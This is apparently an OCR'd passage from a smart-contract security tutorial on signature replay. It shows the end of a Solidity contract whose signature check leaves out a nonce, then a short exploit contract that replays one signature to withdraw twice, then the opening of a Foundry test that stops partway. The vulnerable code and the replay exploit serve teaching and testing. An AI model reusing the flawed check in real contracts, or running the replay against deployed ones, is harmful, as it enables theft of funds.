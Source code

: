 ```

    function getHash(address to, uint256 amount)
        public
        pure
        returns (bytes32)
    {
        return keccak256(abi.encodePacked(to, amount));
    }

    function getEthHash(bytes32 h) public pure returns (bytes32) {
        return
            keccak256(abi.encodePacked("\x19Ethereum Signed Message:\n32", h));
    }

    function verify(address to, uint256 amount, bytes32 r, bytes32 s, uint8 v)
        public
        view
        returns (bool)
    {
        bytes32 h = getHash(to, amount);
        bytes32 ethHash = getEthHash(h);
        return ecrecover(ethHash, v, r, s) == owner;
    }
}


```
## Attack Part

```

contract SignatureReplayExploit {
    ISignatureReplay immutable target;

    constructor(address _target) {
        target = ISignatureReplay(_target);
    }

    receive() external payable {}

    function pwn(bytes32 r, bytes32 s, uint8 v) external {
        target.withdraw(msg.sender, 1e18, r, s, v);
        target.withdraw(msg.sender, 1e18, r, s, v);
    }
}
```

## Test Simulation
```
// SPDX-License-Identifier: MIT
pragma solidity 0.8.24;

import {Test} from "forge-std/Test.sol";
import {SignatureReplay,SignatureReplayExploit} from "../src/SignatureReplay.sol";

contract SignatureReplayExploitTest is Test {
    SignatureReplay private target;
    SignatureReplayExploit private exploit;
    uint256 private constant PRIVATE_KEY = 999;
    address signer;
    address private constant attacker = address(13);

```